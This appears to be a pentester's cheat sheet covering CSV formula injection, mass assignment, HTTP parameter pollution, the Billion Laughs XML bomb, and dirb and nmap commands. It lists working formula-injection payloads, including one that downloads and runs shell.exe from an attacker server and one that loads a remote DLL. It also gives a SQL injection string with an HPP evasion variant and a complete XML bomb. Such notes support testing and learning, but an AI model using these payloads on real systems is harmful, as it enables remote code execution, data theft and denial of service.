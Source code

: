 Formula injection:
====
when web application is processing user supplied data in EXPORT functionality spread sheet.

>>> OR
                          
CSV Injection occurs when the data injection occurs when the data in a spreadsheet cell is not properly validated prior to export. 
The attacker usually injects a malicious payload (formula) into the input field.
Once the data is exported, the spreadsheet executes the malicious payload on the assumption of a standard macro.

<h3>Payload:</h3>
           
           DDE ("cmd";"/C calc";"!A0")A0
           @SUM(1+9)*cmd|' /C calc'!A0
           =10+20+cmd|' /C calc'!A0
           =cmd|' /C notepad'!'A1'
           =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
           =cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

<h3>Mass Assignment</h3>
    
 When there are 2 parameters and the user insert the third un-recognised parameter and aceepted without validating is described as Mass assignment.h3
 
 <h3>HTTP Parameter Pollution</h3>
  
  HTTP Parameter Pollution (HPP) is a Web attack evasion technique that allows an attacker to craft a HTTP request in order to manipulate or retrieve hidden information. 
   For example:
   
   Regular attack: 
   
             http://webApplication/showproducts.asp?prodID=9 UNION SELECT 1,2,3 FROM Users WHERE id=3 —

Attack using HPP: 

        http://webApplication/showproducts.asp?prodID=9 /*&prodID=*/UNION /*&prodID=*/SELECT 1 &prodID=2 &prodID=3 FROM /*&prodID=*/Users /*&prodID=*/ WHERE id=3 —- -
    
 <h3>XML Billion Laugh Attack</h3>
 
 The Billion Laughs attack is a denial-of-service attack that targets XML parsers. The Billion Laughs attack is also known as an XML bomb, or more esoterically, the exponential entity expansion attack. A Billion Laughs attack can occur even when using well-formed XML and can also pass XML schema validation.

The vanilla Billion Laughs attack is illustrated in the XML file represented below.

            <?xml version="1.0"?>
            <!DOCTYPE lolz [
            <!ENTITY lol "lol">
            <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
            <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
            <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
            <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
            <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
            <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
            <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
            <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
            ]>
            <lolz>&lol9;</lolz>

Dirb
===

DIRB is a command line based tool to brute force any directory based on wordlists. 
DIRB will make an HTTP request and see the HTTP response code of each request


To perform directory search

     ./dirb http://www.test.org/ word_list.txt
    
To perform file name search with specific extension. Below mentioned example will check for files name with extensions .html and .asp

     ./dirb https://www.test.org/ common.txt -X .html,.asp
     
N-MAP
===

 To find out firewall IS active or not
 
            nmap -sA 192.168.0.1 
 
  Fast scan

          nmap -F 192.168.0.1  

   For udp ports scan

            nmap -sU 192.168.0.1 

  For specific port

            nmap -F 192.168.0.1 -p 47,49

   When firewall blocking the ping request

              nmap -F 192.168.0.1-pn

   To find host version & service

            nmap -sV 192.168.0.1




     

